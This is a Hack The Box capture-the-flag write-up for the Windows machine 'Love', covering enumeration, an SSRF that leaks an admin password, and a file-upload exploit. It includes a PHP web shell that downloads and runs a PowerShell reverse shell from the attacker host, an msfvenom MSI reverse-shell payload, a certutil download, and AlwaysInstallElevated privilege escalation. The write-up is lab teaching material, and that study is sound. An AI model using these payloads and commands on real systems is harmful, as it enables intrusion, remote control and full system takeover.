

# Love Writeup - by Thammanant Thamtaranon  
- Love is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.10.239
```
  
  
- The scan showed multiple open ports:  
  - 80 (HTTP)  
  - 135, 139, 445 (MSRPC, SMB, NetBIOS)  
  - 443 (HTTPS)  
  - 3306 (MySQL)  
  - 5000 (HTTP)  
  - 5985, 5986 (WinRM HTTP, WinRM HTTPS)

- I added `staging.love.htb` and `love.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We ran a directory brute-force using `gobuster`:
```bash 
gobuster dir -u love.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 50
```
  
- The interesting path is `/admin`. We tried common credentials, but they did not work.  
- The `index.php` page requires a voting ID and password, so we moved on.  
- We tried connecting to port 5000 but got `Forbidden`.  
- Visiting `http://staging.love.htb` revealed a Free File Scanner service. We navigated to the demo and found a URL parameter.  
- We attempted SSRF to port 5000 and it worked, revealing Admin's password.  
  
- We used the credential `admin:@LoveIsInTheAir!!!!` at `/admin` and successfully logged in.

## Exploitation  
- We searched for Voting System CVEs and found multiple, but since we were authenticated, we focused on **File Upload RCE (Authenticated Remote Code Execution)**.  
  
- Reading the Python code, the vulnerability exists in the `photo` field when adding a voter. Using Burp Suite, we exploited it manually.  
  
  
- We then navigated to `http://love.htb/images/shell.php?cmd=whoami` to confirm the exploit worked.  
  
- After confirming the exploit, we modified the command to download and execute our `rev.ps1` from our machine:  
```bash
<?php
$ps1_url = "http://10.10.16.11:8000/rev.ps1";  
$local_path = "rev.ps1";

file_put_contents($local_path, file_get_contents($ps1_url));

$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -File \"$local_path\"";
pclose(popen("start /B " . $cmd, "r"));
?>  
```
  
  
- We then got a shell as user `phoebe` and captured the user flag.

## Privilege Escalation  
- We ran `whoami /priv` and `whoami /groups` to check privileges and group membership, but initially found nothing useful.  
  
- While checking around, we found that `AlwaysInstallElevated` was set to 1.  
  
- `AlwaysInstallElevated` is a Windows Installer policy that forces the Windows Installer service (`msiexec.exe`) to run all MSI package installations with elevated privileges, regardless of the user’s current token.  
- We generated an MSI payload using msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.11 LPORT=5555 -f msi > shell.msi
```
- We then downloaded it to the server:
```bash 
certutil -urlcache -split -f http://10.10.16.11:8000/shell.msi shell.msi
```
- Finally, we ran the payload:
```bash
msiexec /quiet /i shell.msi
```
- We now had a SYSTEM shell and captured the root flag.  

